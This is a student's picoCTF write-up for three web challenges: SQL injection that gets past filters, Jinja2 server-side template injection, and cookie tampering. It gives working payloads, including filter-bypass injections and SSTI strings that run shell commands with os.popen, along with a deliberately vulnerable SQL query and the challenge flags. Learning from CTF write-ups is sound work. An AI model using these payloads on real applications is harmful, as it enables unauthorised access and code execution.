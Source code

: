 # 1. Web gauntlet

>Can you beat the filters?
Log in as admin http://shape-facility.picoctf.net:56760/ http://shape-facility.picoctf.net:56760/filter.php
## Solution:

- Sql injection wrt filters
- admin'/* worked for most of them
- and concatenating the strings for last 2 worked like:
  ad'||'min'/* or a'||'dmin'/* 

## Flag:

```
picoCTF{y0u_m4d3_1t_79a0ddc6}
```

## Concepts learnt:

- SQL injection
 - SQL injection is a vulnerability that occurs when an application incorporates user input directly into SQL queries without proper sanitization. 

- I mean i got the idea but this was hard to relate so i sort of learned using an example i got from my goat claude

```sql
# VULNERABLE - Never do this!
username = request.get('username')
password = request.get('password')

query = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
result = db.execute(query)
```
- So yeah , Here commenting out works , we comment out the password field so anypassword and UwU

- Common sql techniques
## Notes:
- Opened up an sql cheat sheet and just started using random injections
the OR ones UNION and time dependent ones

## Resources:

.


***

# 2. SSTI

> I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website here!

## Solution:

- Detecting the template engine
- Testing the waters using the following payloads

```

{{7*7}}
${7*7}
<%= 7*7 %>
#{7*7}

```
- The first one worked so its a Jinja2  SSTI (nope had 0 idea about different templates 100% AI)
- Checking config
 ```python
{{''.__class__.__mro__[1].__subclasses__()[104].__init__.__globals__['sys'].modules['os'].popen('ls').read()}}

```
Output 
```__pycache__ app.py flag requirements.txt
```
- Reading the flag
```python
{{cycler.__init__.__globals__.os.popen('cat flag').read()}}
```
- The flag pops up.
## Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_f5438664}
```

## Concepts learnt:
- Template engine : template engines generate HTML by combining templates with data
 - Template engines , their languages and syntax
 - Exploring config and finding files

 - Why this works (Claude taught me ts)
  - Python objects have special attributes like __globals__
   - These give access to the Python runtime
     - From there, we can import modules and execute code
     - Reading the flag ({{cycler.__init__.__globals__.os.popen('cat flag').read()}}):
 - learning common SSTI playloads
 ```
 cycler: Built-in Jinja2 utility
__init__: Constructor method
__globals__: Access global namespace
os: Operating system module
popen('id'): Execute 'id' command
.read(): Get command output
 ```

## Notes:
T__T heavily used AI to learn SSTI
## Resources:

.


***

# 3. Cookies

> Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:29649/

## Solution:

- Inspect element > Application > Cookies
- name value: -1
- The cookie value changes with every cookie name entered
- Manually changing the cookie value and sifting through the numbers to get the cookie 
- Found flag at value = 18

## Flag:

```
picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}
```

## Concepts learnt:

- Cookies
 - Cookies are small pieces of data that websites store in our browser.
 - Used to remember information between pages
- Why cookies exist? 
 - Working of cookies
- Attributes of a cookie
```
Set-Cookie: session=xyz789; 
            Domain=.example.com; 
            Path=/; 
            Expires=Wed, 09 Jun 2026 10:18:14 GMT; 
            Max-Age=3600; 
            Secure; 
            HttpOnly; 
            SameSite=Strict

```
- Type of cookies in web apps
 - session cookies
 - JWT tokens
 - Preference cookies
 - Tracking cookies
- Cookie vulnerabilities <refer claude (for myself)>
- Exploiting cookies using Developer tools

## Notes:
- I kept changing values T__T but forgot to refresh the values ^^

## Resources:

.


***






